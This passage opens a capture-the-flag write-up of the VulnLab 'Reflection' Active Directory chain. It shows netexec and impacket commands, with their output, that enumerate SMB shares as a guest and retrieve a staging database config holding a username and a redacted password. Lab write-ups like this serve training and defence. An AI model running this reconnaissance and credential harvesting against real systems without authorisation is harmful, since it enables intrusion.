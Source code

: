 ```yaml
---
layout: post
title: "Reflection"
categories: [VulnLab]
date: 2025-05-03
tags: [rbcs, GenericAll, mssql, Reuse, relaying]
image: assets/img/reflection_slide.png
---
```


The Reflection AD chain in VulnLab consists of three machines, and it is described as being of medium difficulty. The chain utilizes methods such as MSSQL, RBCD, password reuse, credential dumping, and relaying.


### MS01

Check the shares as the guest user using netexec.

```zsh
➜  reflection netexec smb ms01 -u 'guest' -p '' --shares                      
SMB         10.10.156.102   445    MS01             [*] Windows Server 2022 Build 20348 x64 (name:MS01) (domain:reflection.vl) (signing:False) (SMBv1:False)
SMB         10.10.156.102   445    MS01             [+] reflection.vl\guest: 
SMB         10.10.156.102   445    MS01             [*] Enumerated shares
SMB         10.10.156.102   445    MS01             Share           Permissions     Remark
SMB         10.10.156.102   445    MS01             -----           -----------     ------
SMB         10.10.156.102   445    MS01             ADMIN$                          Remote Admin
SMB         10.10.156.102   445    MS01             C$                              Default share
SMB         10.10.156.102   445    MS01             IPC$            READ            Remote IPC
SMB         10.10.156.102   445    MS01             staging         READ            staging environment
```

The staging share draws our attention.

```zsh
➜  reflection impacket-smbclient reflection.vl/guest@10.10.156.102 -dc-ip 10.10.156.101 -no-pass
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Type help for list of commands
# use staging
# ls
drw-rw-rw-          0  Thu Jun  8 15:21:36 2023 .
drw-rw-rw-          0  Wed Jun  7 21:41:25 2023 ..
-rw-rw-rw-         50  Thu Jun  8 15:21:49 2023 staging_db.conf
```

Download the configuration file and look its contents.

```zsh
➜  ms01 cat staging_db.conf 
user=web_staging
password=<REDACTED>
db=staging%       
```
